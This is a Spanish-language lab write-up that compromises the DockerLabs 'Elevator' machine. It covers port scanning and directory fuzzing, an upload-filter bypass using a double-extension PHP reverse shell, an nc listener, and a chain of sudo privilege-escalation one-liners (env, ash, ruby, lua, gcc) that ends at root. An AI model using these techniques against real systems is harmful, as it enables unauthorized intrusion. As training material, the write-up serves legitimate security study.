 # Informe de Pentesting – Máquina Vulnerable *Elevator*

![Logo](/Elevator/Imagenes/Logo.png)

## Descripción

La máquina vulnerable *Elevator* fue descargada desde la página oficial de DockerLabs. Una vez descargado el archivo `elevator.zip`, se descomprime utilizando la herramienta `unzip`:

```bash
unzip elevator.zip
```

Posteriormente, se despliega la máquina con el script de instalación automática:

```bash
sudo bash auto_deploy.sh elevator.tar
```

## Objetivo

Obtener acceso inicial a la máquina e ir escalando privilegios hasta llegar a `root`.

---

## 1. Comprobación de Conectividad

Se verifica que la máquina esté activa usando un ping:

```bash
ping -c4 172.17.0.2
```

![Ping](/Elevator/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento

### 2.1 Escaneo de Puertos

Se realiza un escaneo agresivo de todos los puertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Resultado: solo el puerto **80 (HTTP)** está abierto.

![Puertos](/Elevator/Imagenes/Puertos.jpeg)

### 2.2 Extracción de Puertos

Se utiliza el script personalizado `extractPorts` para filtrar los puertos encontrados.

![Servicios](/Elevator/Imagenes/Servicios.jpeg)

---

## 3. Análisis de la Aplicación Web

Al acceder al sitio web en el puerto 80, no se detecta contenido destacable.

![Página Principal](/Elevator/Imagenes/Pagina.jpeg)

### 3.1 Fuzzing de Directorios

Se realiza un ataque de fuerza bruta para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se descubren dos directorios interesantes. Se realiza fuzzing sobre `/themes/`:

```bash
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

![Fuzzing](/Elevator/Imagenes/Fuzzing.jpeg)

---

## 4. Explotación

### 4.1 Descubrimiento de Funcionalidad Vulnerable

En `http://172.17.0.2/themes/archivo.html` se encuentra una funcionalidad para subir imágenes (`.jpg` únicamente).

![Subida](/Elevator/Imagenes/Subir.jpeg)

Además, se descubren las rutas:

* `http://172.17.0.2/themes/uploads/`
* `http://172.17.0.2/themes/upload.php`

![Directorio Uploads](/Elevator/Imagenes/Directorio.jpeg)

### 4.2 Payload Malicioso

Se prepara una reverse shell PHP con doble extensión (`.php.jpg`):

```php
nano php_reverseshell.php.jpg
```

![Reverse Shell GitHub](/Elevator/Imagenes/Gitrevershell.jpeg)
![Tricks](/Elevator/Imagenes/tricks.jpeg)

El archivo se sube exitosamente, y se puede ejecutar desde la carpeta `/themes/uploads/`.

![Archivo Subido](/Elevator/Imagenes/Archivo.jpeg)
![Subida Exitosa](/Elevator/Imagenes/Subida.jpeg)
![Carga Exitosa](/Elevator/Imagenes/Carga.jpeg)

### 4.3 Acceso Remoto

Se escucha en el puerto definido en el payload (443):

```bash
sudo nc -lvnp 443
```

![Escucha](/Elevator/Imagenes/Escucha.jpeg)

Se accede exitosamente como `www-data`.

---

## 5. Escalada de Privilegios

Se aprovechan múltiples permisos `sudo` entre usuarios, realizando un encadenamiento de escaladas:

1. `www-data` puede ejecutar `/usr/bin/env` como `daphne`
2. `daphne` puede usar `/usr/bin/ash` como `vilma`
3. `vilma` puede usar `ruby` como `shaggy`
4. `shaggy` puede usar `lua` como `fred`
5. `fred` puede usar `gcc` como `scooby`
6. `scooby` puede usar `sudo` como `root`

```bash
sudo -u daphne /usr/bin/env /bin/bash
sudo -u vilma /usr/bin/ash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
sudo -u scooby /usr/bin/gcc -wrapper /bin/bash,-s .
sudo -u root /usr/bin/sudo su
```

![Intrusión](/Elevator/Imagenes/Intrusion.jpeg)
![Escalada](/Elevator/Imagenes/Escalada.jpeg)

---

## Conclusión

La máquina *Elevator* presenta una cadena de configuraciones inseguras en múltiples usuarios que permiten una escalada de privilegios completa hasta `root`. El punto inicial de explotación es una mala validación de archivos subidos, que permite ejecución remota de código.

